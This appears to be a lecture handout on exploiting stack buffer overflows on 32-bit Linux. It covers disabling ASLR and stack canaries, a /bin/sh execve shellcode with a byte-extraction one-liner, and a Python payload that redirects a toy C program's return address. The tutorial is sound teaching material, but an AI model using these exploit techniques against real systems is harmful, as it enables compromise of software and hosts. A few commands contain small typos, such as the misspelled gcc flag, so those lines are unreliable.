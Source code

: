 # Lecture 2: Stack Overflows

I am assuming you have been through the [Lecture 1
handouts](/Lecture1/README.md). In that handout I have mostly explained about
the concept of memory and stack growth. Before going on with this lecture please
read it fist.  

In this lecture I am planning to cover the following:
* Stack overflow.
* Their protection mechanisms.
    * ASLR.
    * Stack canaries.
* What are shell code.
* Exploiting stack overflows and changing control flow of the program.


Let's begin.  

### Stack overflow.
Programming languages such as C, in which the High level language instructions
maps to typical machine language do not provides any mechanism to identify if
the buffer (char array) declared on to the stack, can take the input more that
was it was supposed to take. The reason for non checking such sort of mechanism
was to achieve speed par to the machine language.  

If you remember the stack diagram from Lecture 1, this is how the stack looks
like during the function call.
```
                       +   Previous function  +
                       |     Stack frame      +
                       |                      |
                       +----------------------+ <--+ previous function stack frame end here
                       |Space for return value|
                       +----------------------+
                       |Arguments for function|
                       +----------------------+
                       |    return address    |
                       +----------------------+
                       |     saved $ebp       |
                       +----------------------+
                       |                      | <--+  padding done by compilers
                       +------------+---------+
                       |         |4 |         |
                       |         |3 |         |
                       |         |2 | ^       |
                       |         |1 | |       |
                       |      ch |0 | |       |
                       +------------+-+-------+                       |                      |
                       |                      |
                       |     unused space     |
                       +                      +
```

Observe how the buffer is aligned in the stack. Buffers/char arrays are stored
from lower to higher memory addresses. And also C programs do not checks if size
of the array is less than the input size.  
So we have these things in mind:
* C does not check buffer over flow.
* Buffers are stored in lower to higher memory address.
* Just after the buffer, after overflowing it to certain amount can update saved
* `$ebp` and return address.
* If the return address is changed we can change the control flow. :cool:

### Stack Protection
#### 1. ASLR
> Address space layout randomization (ASLR) is a computer security technique
> involved in preventing exploitation of memory corruption vulnerabilities. In
> order to prevent an attacker from reliably jumping to, for example, a
> particular exploited function in memory, ASLR randomly arranges the address
> space positions of key data areas of a process, including the base of the
> executable and the positions of the stack, heap and libraries. Ref: [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization)  

In short ASLR, will keep on changing the starting address of every section will
each run be it either heap or stack. So, ASLR will hinder our exploitation.
What we can do for that? We will disable it. :smile:
We will see about exploiting stack with ASLR enabled systems in future lectures.
For now, you can disable it with this following command:  
`echo "0" | sudo dd of=/proc/sys/kernel/randomize_va_space`

#### 2. Stack Canaries
>Stack canaries, named for their analogy to a canary in a coal mine, are used to
>detect a stack buffer overflow before execution of malicious code can occur.
>This method works by placing a small integer, the value of which is randomly
>chosen at program start, in memory just before the stack return pointer. Ref:(link)[https://en.wikipedia.org/wiki/Stack\_buffer\_overflow#Stack\_canaries]

This means they just protect your buffers. This is technique implemented by the
compiler to incorporate some random data after the end of buffer in the program
that will allow system to identify the buffer overflows.
For now we will disable that option from the compiler using following option.
`gcc -fno-stackprotector <file>.c`

### Shell Codes
Shell is small piece of payload in binary language that is used to inject to
vulnerable binary files. You can craft the payload for anything. They are just
module level binary code.  
Crafting shellcode is in itself a big topic to cover here. I shall take it in
brief. We will create a shellcode that spawns a shell. First create
shellcode.nasm with the following content.
[In detail](http://www.vividmachines.com/shellcode/shellcode.html)

```
xor     eax, eax    ;Clearing eax register
push    eax         ;Pushing NULL bytes
push    0x68732f2f  ;Pushing //sh
push    0x6e69622f  ;Pushing /bin
mov     ebx, esp    ;ebx now has address of /bin//sh
push    eax         ;Pushing NULL byte
mov     edx, esp    ;edx now has address of NULL byte
push    ebx         ;Pushing address of /bin//sh
mov     ecx, esp    ;ecx now has address of address
                    ;of /bin//sh byte
mov     al, 11      ;syscall number of execve is 11
int     0x80        ;Make the system call
```

Use `nasm` to compile it.  
`nasm -f elf shellcode.asm`

Now you would want to obtain the shell code bytes. What are they? They are
machine code that corresponds to those instructions.
How can we get those? `objdump` will help.
`objdump -d shellcode.o`
You will get something like.
```
shellcode.o:     file format elf32-i386
Disassembly of section .text:

00000000 <.text>:
   0:	31 c0                	xor    %eax,%eax
   2:	50                   	push   %eax
   3:	68 2f 2f 73 68       	push   $0x68732f2f
   8:	68 2f 62 69 6e       	push   $0x6e69622f
   d:	89 e3                	mov    %esp,%ebx
   f:	50                   	push   %eax
  10:	89 e2                	mov    %esp,%edx
  12:	53                   	push   %ebx
  13:	89 e1                	mov    %esp,%ecx
  15:	b0 0b                	mov    $0xb,%al
  17:	cd 80                	int    $0x80
```
You can use the following shell code to get that extracted. :cool:
``for i in `objdump -d shellcode.o | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}$' ` ; do echo -n "\x$i" ; done``

Exploiting actual programs:
---

#### 1. Lets consider this code.
```
#include <stdio.h>

void bar()
{
    printf("How come you entered into bar ?\n");
}

void foo()
{
    char buffer[10];
    scanf("%s", buffer);
    printf("Hello ji %s \n", buffer);
}

int main()
{
    foo();
    return 0;
}
```
The task is to change the control flow so that `bar` function is called.
Lets start doing it. Compilation instruction are there in the file.
Identify the buffer location and how far is $ebp from it.
`objdump -d ./first`
```
0804848b <bar>:
 804848b:	55                   	push   %ebp
 804848c:	89 e5                	mov    %esp,%ebp
 ...

080484a4 <foo>:
 80484a4:	55                   	push   %ebp
 80484a5:	89 e5                	mov    %esp,%ebp
 80484a7:	83 ec 18             	sub    $0x18,%esp
 80484aa:	83 ec 08             	sub    $0x8,%esp
 80484ad:	8d 45 ee             	lea    -0x12(%ebp),%eax
 80484b0:	50                   	push   %eax
 80484b1:	68 a0 85 04 08       	push   $0x80485a0
 80484b6:	e8 b5 fe ff ff       	call   8048370 <__isoc99_scanf@plt>
 80484bb:	83 c4 10             	add    $0x10,%esp
 80484be:	83 ec 08             	sub    $0x8,%esp
 80484c1:	8d 45 ee             	lea    -0x12(%ebp),%eax
 80484c4:	50                   	push   %eax
 80484c5:	68 a3 85 04 08       	push   $0x80485a3
 80484ca:	e8 71 fe ff ff       	call   8048340 <printf@plt>
 80484cf:	83 c4 10             	add    $0x10,%esp
 80484d2:	90                   	nop
 80484d3:	c9                   	leave  
 80484d4:	c3                   	ret    

080484d5 <main>:
...
 80484df:	55                   	push   %ebp
 80484e0:	89 e5                	mov    %esp,%ebp
 80484e2:	51                   	push   %ecx
 80484e3:	83 ec 04             	sub    $0x4,%esp
 80484e6:	e8 b9 ff ff ff       	call   80484a4 <foo>
...

```

Notice these instruction in `foo`  
```
 80484ad:	8d 45 ee             	lea    -0x12(%ebp),%eax
 80484b0:	50                   	push   %eax
 80484b1:	68 a0 85 04 08       	push   $0x80485a0
 80484b6:	e8 b5 fe ff ff       	call   8048370 <__isoc99_scanf@plt>
```

The value of 0x12 is subtracted from `$ebp` and is then pushed to stack for call to `scanf`.
We know that one of them is nothing but buffer that scanf inputs.
This must be the buffer that need to inject. base16(12) == base10(18). Our buffer is 18 bytes from `$ebp`.  

Finally we are ready to craft the payload.  
``echo -e `python -c 'print "A"*18+<Dummay valur for EBP>+<Return address>'` | ./first ``
The exact payload looks like:  
``echo -e `python -c 'import struct;print "A"*18+"BBBB"+struct.pack("<I", 0x0804848b )'` | ./first ``

```
Hello ji AAAAAAAAAAAAAAAAAABBBB? 
How come you entered into bar ?
Segmentation fault (core dumped)
```

:smile: we exploited the buffer overflow.  



